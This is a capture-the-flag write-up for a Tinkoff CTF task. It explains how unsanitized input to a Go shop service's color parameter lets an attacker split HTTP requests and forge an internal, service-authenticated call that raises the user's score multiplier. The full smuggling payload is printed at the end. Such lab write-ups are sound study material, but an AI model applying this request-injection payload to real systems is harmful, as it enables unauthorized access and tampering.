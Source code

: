# CZF

## Task
[Task link](https://ctf.tinkoff.ru/tasks/demiurg)

Каждый день Сизиф катит в гору камень, но он скатывается вниз. Станьте демиургом — измените мир. Сделайте так, чтобы камень сам катился в гору и больше не скатывался.

Игра: t-demiurg-iuzq2gj3.spbctf.net/

Исходный код игры: czf_6h5g94e.tar.gz

## Solution

We have three microservices, with tls communication, like service mesh.
1. Gateway - reverse proxy for both client and service. When special header `X-From-Service` passed, gateway will verify client certificate with it's [ca.crt](czf/apigateway/src/ca.crt). Also adds `X-UserID` header to all requests.
2. User Info - microservice that handles user information.
3. Shop - microservice, where you can make click, buy theme and but premium.

Let's look at how premium purchase occur.
Shop just sets multipler=10 to your user info.

```go
params = fmt.Sprintf("multiplier=%d", 10)
client.Post("https://apigateway:9443/api/setUserMultiplier?" + params, headers)
```

Let's look at the beginning of `Post` method.

```go
func (c *Client) Post(urlString string, headers map[string]string) (string, []byte, error) {
  host := "apigateway:9443"
  conn, err := tls.Dial("tcp", host, c.Config)
  if err != nil {
    return "", []byte{}, err
  }
  defer conn.Close()
  request := fmt.Sprintf("POST %s HTTP/1.1\r\nHost: %s\r\n", urlString, host)
  ...
}
```

If we can control `urlString` we can split request to arbitrary number of requests.
Trying to search for url we control.

Find eventually function [changeColor](czf/shop/src/main.go#30) on the endpoint `/api/buyColor`.

```go
func changeColor(c *gin.Context) {
    userID := c.GetHeader(UserIDHeaderName)
    color := c.Query("color")
    ...
    params = fmt.Sprintf("color=%s", color)
    client.Post("https://apigateway:9443/api/setUserColor?" + params, headers)
    ...
}
```

How we can find user id?

```go
func (app *App) login(c *gin.Context) {
  ...
  sessionValue := createAndSignSession(string(userInfoRow.UserID))
  c.SetCookie("session", sessionValue, 3600000, "", "", false, false)
  ...
}

func createAndSignSession(userID string) string {
  payload := []byte(userID)
  ...
  return string(payload) + "." + string(hex.EncodeToString(expectedMAC))
}
```

We just take uuid up to the first point in session value.

And finaly color value in http request to `/api/buyColor`.
```
black HTTP/1.1
Host: apigateway:9443
X-From-Service: Yes
X-User-ID: <user-uuid-from-cookie>

POST https://apigateway:9443/api/setUserMultiplier?multiplier=100000 HTTP/1.1
Host: apigateway:9443
X-From-Service: Yes
X-User-ID: <user-uuid-from-cookie>
```
